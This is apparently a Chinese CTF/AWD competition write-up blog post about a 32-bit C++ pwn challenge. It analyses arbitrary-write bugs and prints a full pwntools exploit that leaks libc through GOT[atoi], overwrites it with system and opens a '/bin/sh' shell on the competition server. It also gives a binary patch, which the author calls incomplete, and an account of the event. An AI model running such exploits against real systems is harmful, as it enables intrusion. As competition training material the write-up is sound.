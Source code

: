 ```yaml
---
title: 2024浙江通信行业职业技能竞赛 - awd
date: 2024/08/06 23:31:00
updated: 2024/09/11 19:03:00
tags:
    - awd
thumbnail: /assets/industrial2024/banner.jpg
excerpt: （信息安全测试员竞赛）下午的awd拿分拿到爽，最后团体第三
---
```


本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

{% note info fa-paperclip %}
题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到
{% endnote %}

### 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

### 程序粗解

C++菜单题，只用到了`cout`和`endl`，使用`atoi`来把输入的字符串转换为int

### 漏洞分析

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容

![bug1](/assets/industrial2024/bug1.png)

{% note purple fa-exclamation %}
`"%4094s"`不允许修改，否则过不了check
{% endnote %}

![add](/assets/industrial2024/add.png)

2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查

![bug2](/assets/industrial2024/bug2.png)

### 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以评论

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

### 参考修复方案

先上个通用沙箱，然后patch以下问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]   ; heap
-01 d0                  add eax, edx            ; &heap[index]
+8d 83 68 00 00 00      eax, [ebx + 0x68]       ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
忽略了`index`，实际上有所疏漏，只是能过check，不能算一个好的方案

{% folding pink::比赛经历分享 %}
7月31号到达酒店，第二天作为凌武科技实习生参加比赛。早上是个人赛，理论题+CTF，
下午是团队赛AWD，8月3号还有一天的渗透赛，我没报名，提前溜了

系统用的是跟上海赛一模一样的系统

![live](/assets/industrial2024/live.jpg)

中饭主办方提供了堂食，还不错

![lunch](/assets/industrial2024/lunch.jpg)

下午打awd的时候，由于场上没多少人会pwn（由上午的个人赛中，
pwn的简单题除了我只有1人解出可见），当我拿出exp时，那一轮直接拿了900+的分，
不过后面强队修洞，弱队关服务， 最后一轮只拿了300+分。
最后也是顺利拿下了第三名，晚上出去搓了一顿

![dinner](/assets/industrial2024/dinner.jpg)

比赛还发了参赛证，长下面这样，顺便还贴了前几名的成绩

![score](/assets/industrial2024/score.jpg)

*更新于24/09/11*

个人赛只打了2道pwn+1道简单的逆向，理论题都是瞎做的，结果意外拿了个人三等奖，
团队最后拿了二等奖，后面去移动大厦领奖了。大公司的装修就是不一样啊

![conference](/assets/industrial2024/conference.jpg)
{% endfolding %}
